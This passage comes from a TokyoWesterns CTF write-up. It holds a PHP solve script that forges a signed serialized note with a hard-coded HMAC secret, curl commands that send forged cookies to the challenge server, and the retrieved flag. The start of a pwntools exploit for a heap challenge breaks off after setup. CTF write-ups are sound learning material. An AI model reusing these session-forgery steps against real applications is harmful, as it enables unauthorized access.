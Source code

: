 ```php
}

function hmac($data) {
    $secret = $_SESSION['secret'];
    if (empty($data) || empty($secret)) return false;
    return hash_hmac('sha256', $data, $secret);
}

function gen_secret($seed) {
    return "2532bd172578d19923e5348420e02320";
}

// create session
$_SESSION = Array();
$_SESSION['secret'] = gen_secret('');
$_SESSION['realname'] = "stypr stypr";
$_SESSION['nickname'] = "";

// generate note
$note = new Note(true);
$note->addnote("work", "work");
$data = base64_encode(serialize($note));

/* verify
//echo "Data: ".(string)$data."\n";
//echo "HMAC: ".(string)hmac($data)."\n";
//echo "-----";
//var_dump(verify((string)$data, (string)hmac($data)));
*/
?>
curl -s 'http://phpnote.chal.ctf.westerns.tokyo/?action=logout' -H 'Cookie: PHPSESSID=468b674d8d6139373a064b832efdf47a;' --insecure
curl -s 'http://phpnote.chal.ctf.westerns.tokyo/?action=login' -H 'Cookie: PHPSESSID=468b674d8d6139373a064b832efdf47a;' --data 'nickname=</body>&realname=stypr+stypr' --compressed --insecure
curl -s "http://phpnote.chal.ctf.westerns.tokyo/?action=getflag" -H "Cookie: PHPSESSID=468b674d8d6139373a064b832efdf47a; note=<?php echo $data; ?>; hmac=<?php echo hmac($data); ?>;"

```

```bash
$ php flag.php | sh | grep "TWCTF"
TWCTF{h0pefully_I_haven't_made_a_m1stake_again}<!doctype html>

```

Flag: `TWCTF{h0pefully_I_haven't_made_a_m1stake_again}`

## Asterisk-Alloc (Pwn) 221pt

```python
from pwn import *

local=0
remote_addr=['ast-alloc.chal.ctf.westerns.tokyo',10001]

libc=ELF('./bytedance/libc-2.27.so')

p=remote(remote_addr[0],remote_addr[1])
#context.log_level = True

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
```